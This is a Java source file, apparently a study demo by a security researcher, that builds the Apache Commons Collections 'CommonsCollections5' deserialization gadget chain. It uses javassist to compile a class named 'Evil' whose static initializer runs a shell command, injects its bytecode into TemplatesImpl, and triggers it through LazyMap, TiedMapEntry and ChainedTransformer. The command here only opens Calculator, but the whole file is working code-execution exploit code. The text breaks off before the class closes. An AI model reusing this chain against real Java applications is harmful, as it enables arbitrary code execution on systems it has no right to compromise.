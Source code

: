 ```java
package CommonsCollections5;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.comparators.TransformingComparator;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.IOException;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 1:47 pm
 */
public class TiedMapEntryDemo {

    public static void TiedMapEntryDemo() throws NotFoundException, CannotCompileException, NoSuchFieldException, IllegalAccessException, IOException {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = pool.makeClass("Evil");
        ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        String shell = "java.lang.Runtime.getRuntime().exec(\"open -a /System/Applications/Calculator.app\");";
        ctClass.makeClassInitializer().insertBefore(shell);

        byte[] shellCode = ctClass.toBytecode();
        byte[][] targetCode = new byte[][]{shellCode};

        TemplatesImpl obj = new TemplatesImpl();
        Class clazz = obj.getClass();
        Field _name = clazz.getDeclaredField("_name");
        Field _bytecode = clazz.getDeclaredField("_bytecodes");
        Field _tfactory = clazz.getDeclaredField("_tfactory");
        _name.setAccessible(true);
        _bytecode.setAccessible(true);
        _tfactory.setAccessible(true);
        _name.set(obj, "h3rmesk1t");
        _bytecode.set(obj, targetCode);
        _tfactory.set(obj, new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{obj})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map hashMap = new HashMap();
        Map map = LazyMap.decorate(hashMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(map, 1);
        tiedMapEntry.toString();
    }

```